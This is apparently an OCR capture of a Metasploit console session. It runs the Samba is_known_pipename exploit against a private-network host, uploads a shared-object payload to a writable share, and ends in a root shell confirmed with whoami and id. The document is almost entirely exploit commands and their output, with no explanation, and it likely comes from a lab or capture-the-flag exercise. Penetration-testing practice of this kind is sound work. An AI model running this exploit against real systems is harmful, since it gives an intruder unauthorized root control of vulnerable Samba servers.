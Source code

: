 ```css
Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CHOST                            no        The local client address
   CPORT                            no        The local client port
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Interact)



View the full module info with the info, or info -d command.

msf6 exploit(linux/samba/is_known_pipename) > set RHOSTS 192.168.244.178
RHOSTS => 192.168.244.178
msf6 exploit(linux/samba/is_known_pipename) > set RPORT 139
RPORT => 139
msf6 exploit(linux/samba/is_known_pipename) > exploit

[*] 192.168.244.178:139 - Using location \\192.168.244.178\tmp\ for the path
[*] 192.168.244.178:139 - Retrieving the remote path of the share 'tmp'
[*] 192.168.244.178:139 - Share 'tmp' has server-side path '/var/tmp
[*] 192.168.244.178:139 - Uploaded payload to \\192.168.244.178\tmp\BcpZgjsw.so
[*] 192.168.244.178:139 - Loading the payload from server-side path /var/tmp/BcpZgjsw.so using \\PIPE\/var/tmp/BcpZgjsw.so...
[-] 192.168.244.178:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.244.178:139 - Loading the payload from server-side path /var/tmp/BcpZgjsw.so using /var/tmp/BcpZgjsw.so...
[-] 192.168.244.178:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.244.178:139 - Uploaded payload to \\192.168.244.178\tmp\ouCVQCWK.so
[*] 192.168.244.178:139 - Loading the payload from server-side path /var/tmp/ouCVQCWK.so using \\PIPE\/var/tmp/ouCVQCWK.so...
[-] 192.168.244.178:139 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] 192.168.244.178:139 - Loading the payload from server-side path /var/tmp/ouCVQCWK.so using /var/tmp/ouCVQCWK.so...
[+] 192.168.244.178:139 - Probe response indicates the interactive payload was loaded...
[*] Found shell.
[*] Command shell session 1 opened (192.168.244.133:38745 -> 192.168.244.178:139) at 2024-02-02 05:11:49 -0500

whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```